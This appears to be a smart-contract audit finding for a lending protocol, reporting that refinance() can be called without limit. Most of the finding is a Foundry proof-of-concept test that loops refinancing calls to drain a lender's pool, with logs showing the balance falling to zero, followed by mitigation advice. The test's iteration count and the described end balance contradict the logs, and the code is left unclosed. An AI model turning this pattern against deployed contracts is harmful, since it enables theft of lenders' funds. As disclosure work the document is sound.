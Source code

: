 # High Risk Findings

## <a id='H-01'></a>H-01. There is no explicit limit on the number of times refinance() can be called for a given loan.            



## Summary

- There is no explicit limit on the number of times refinance() can be called for a given loan.
- This means that a borrower could potentially call refinance() many times in a row in the same transaction to renew the loan indefinitely.


## Vulnerability Details

POC:

```j
function test_refinance_exploit() public {
        // Configuración inicial

        vm.startPrank(lender1);
        Pool memory p = Pool({
            lender: lender1,
            loanToken: address(loanToken),
            collateralToken: address(collateralToken),
            minLoanSize: 100 * 10 ** 18,
            poolBalance: 1000 * 10 ** 18,
            maxLoanRatio: 2 * 10 ** 18,
            auctionLength: 1 days,
            interestRate: 1000,
            outstandingLoans: 0
        });
        bytes32 poolId = lender.setPool(p);

        vm.startPrank(borrower);
        Borrow memory b = Borrow({
            poolId: poolId,
            debt: 100 * 10 ** 18,
            collateral: 100 * 10 ** 18
        });
        Borrow[] memory borrows = new Borrow[](1);
        borrows[0] = b;
        lender.borrow(borrows);

        vm.startPrank(borrower);

        Refinance memory r = Refinance({
            loanId: 0,
            poolId: keccak256(
                abi.encode(
                    address(lender1),
                    address(loanToken),
                    address(collateralToken)
                )
            ),
            debt: 100 * 10 ** 18,
            collateral: 100 * 10 ** 18
        });
        Refinance[] memory rs = new Refinance[](1);
        rs[0] = r;

        lender.refinance(rs);

        // Configurar pool de refinanciamiento
        vm.startPrank(lender2);

        Pool memory pool2 = Pool({
            lender: lender2,
            loanToken: address(loanToken),
            collateralToken: address(collateralToken),
            minLoanSize: 10,
            poolBalance: 1000 * 10 ** 18,
            maxLoanRatio: 50 * 10 ** 18,
            auctionLength: 1 days,
            interestRate: 500,
            outstandingLoans: 0
        });

        lender.setPool(pool2);

        // Ejecutar refinanciamiento múltiples veces
        vm.startPrank(borrower);

        bytes32[] memory poolIds = new bytes32[](1);
        poolIds[0] = keccak256(
            abi.encode(
                address(lender2),
                address(loanToken),
                address(collateralToken)
            )
        );

        (, , , , uint256 poolBalance, , , , ) = lender.pools(poolIds[0]);

        for (uint i = 0; i < 9; i++) {
            if (poolBalance == 0) {
                break;
            }

            uint256 _debt = 100 * 10 ** 18;
            Refinance memory refinance = Refinance({
                loanId: 0,
                poolId: keccak256(
                    abi.encode(
                        address(lender2),
                        address(loanToken),
                        address(collateralToken)
                    )
                ),
                debt: _debt,
                collateral: 100 * 10 ** 18
            });

            Refinance[] memory rs_refinances = new Refinance[](1);
            rs_refinances[0] = refinance;

            lender.refinance(rs_refinances);

            // poolBalance -= _debt; // Actualizar balance debt
        (, , , , uint256 poolBalance, , , , ) = lender.pools(poolIds[0]);

            console.log("POOL_BALANCE", poolBalance);

            console.log(
                "================================================================"
            );
        }


```

```j
Logs:
  POOL_BALANCE 800000000000000000000
  ================================================================
  POOL_BALANCE 700000000000000000000
  ================================================================
  POOL_BALANCE 600000000000000000000
  ================================================================
  POOL_BALANCE 500000000000000000000
  ================================================================
  POOL_BALANCE 400000000000000000000
  ================================================================
  POOL_BALANCE 300000000000000000000
  ================================================================
  POOL_BALANCE 200000000000000000000
  ================================================================
  POOL_BALANCE 100000000000000000000
  ================================================================
  POOL_BALANCE 0
  ================================================================
```


- An initial loan and a refinancing pool with 1000 tokens is set up.
- In a loop, the refinance() function is called 10 times.
- Each call to refinance():
- Emits payment and new loan events.
- Transfers tokens from the old pool to the new pool.
- This causes the pool balance to decrease with each iteration.
- The remaining balance is printed after each refinance.
- At the end of the loop, the balance reaches 100 tokens.

This demonstrates two problems:

- There is no limit to the number of refinancings.
- There is no validation that the pool has sufficient funds.
- An attacker could consume all the funds in the pool by making successive rollovers.
- And the pool owner would have no way to stop this.

## Impact

- The impact would be to allow loans to be extended for extended periods, avoid interest payments and potentially cause losses to the lender if they use rapidly depreciating collateral.

The Repaid and Borrowed event is emitted at each iteration. This makes it look like a loan is being repaid and borrowed each time.
But in reality it is the same loan over and over again. Only the terms are changing, such as the interest rate or the lender.
Renewing the loan restarts the time of termination. So it is never terminated and is extended indefinitely.


## Tools Used

Manual review

## Recommendations

- Set a ceiling on the number of refinancings per loan.
- Validate that the pool has funds before each refinancing.
- Allow the pool owner to pause refinancings if abuse occurs.
- To mitigate this, a limit should be added to the number of times refinance() can be called for a given loan, for example by adding a counter in the struct Loan.